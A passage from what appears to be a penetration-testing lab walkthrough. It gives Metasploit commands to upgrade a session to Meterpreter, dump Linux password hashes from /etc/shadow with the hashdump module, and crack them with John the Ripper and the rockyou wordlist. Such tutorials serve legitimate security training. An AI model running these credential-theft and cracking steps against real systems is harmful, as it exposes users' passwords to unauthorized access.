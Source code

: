 To upgrade the session to fully utilize post-exploitation modules, we upgrade it to a Meterpreter session:

```bash
sessions -u 1
```

Now, we list our sessions and select the newly upgraded Meterpreter session:

```bash
sessions
sessions 2
```

We search for a post-exploitation module that can dump the password hashes:

```bash
search hashdump
```

We use the Linux hashdump module:

```bash
use post/linux/gather/hashdump
```

Set the session to the Meterpreter session we obtained earlier:

```bash
set session 2
```

Run the module to dump the password hashes:

```bash
run
```

- **Explanation**: This module extracts the contents of `/etc/shadow`, which contains password hashes for user accounts.

The dumped hashes will be shown. Copy the relevant portion to a file, e.g., `unshadowed_password_file.txt`.

---

#### 4. Cracking Linux Password Hashes with John the Ripper

We can now proceed to crack the dumped password hashes using **John the Ripper**. If the `rockyou.txt` wordlist is not unzipped, we unzip it:

```bash
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

Run John the Ripper with the appropriate format (`sha512crypt` for modern Linux systems) and specify the wordlist:

```bash
john --format=sha512crypt [path/to/unshadowed/password_file] --wordlist=/usr/share/wordlists/rockyou.txt
```
